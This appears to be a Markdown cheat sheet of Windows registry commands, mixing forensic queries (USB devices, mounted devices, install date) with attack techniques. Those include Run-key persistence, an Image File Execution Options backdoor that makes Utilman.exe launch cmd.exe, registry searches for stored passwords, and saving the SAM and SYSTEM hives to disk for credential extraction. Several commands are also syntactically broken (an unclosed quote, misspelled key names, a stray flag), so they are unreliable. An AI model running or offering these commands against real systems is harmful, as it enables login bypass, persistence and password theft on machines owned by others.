```cmd
reg ADD hklm\system\currentcontrolset\services\usbstor /v Start /t reg_dword /f /d 4
```

### Add Programs to Windows Startup


```cmd
reg ADD hkcu\software\Microsoft\windows\currentversion\run /v program_name /t reg_sz /f /d "C:\\path\\to\program.exe
```

### Query USB Devices

```cmd
reg QUERY HKEY_LOCAL_MACHINE\SYSTEM\controllerset002\Enum\USBSTOR\
```

### Query Mounted Devices

```cmd
reg QUERY HKEY_LOCAL_MACHINE\SYSTEM\mounteddevices
```

### Query Recent Application

```cmd
reg QUERY HKEY_CURRENT_USER\software\microsoft\windows\currentversion\search recentapps
```


###    Find Windows Install Time and Date

the output will be UNIX hex so convert it.

```cmd
reg QUERY "HKLM\SOFTWARE\Microsoft\windows NT\currentversion" /v InstallDate
```

###    Modify Utilman.exe to cmd.exe

```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\currentversion\Image File Execution Option\Utilman.exe /t REG_SZ /v Debugger /d "%systemroot%\system32\cmd.exe" /g
```

### Password Mining

```cmd
reg QUERY HKLM /f passw /t REG_SZ /s
reg QUERY HKCU /f passw /t REG_SZ /s
```

### Saving Windows Passwords

```cmd
mkdir c:\pass
reg SAVE hklm\sam c:\pass\sam
reg SAVE hklm\system c:\pass\system
```
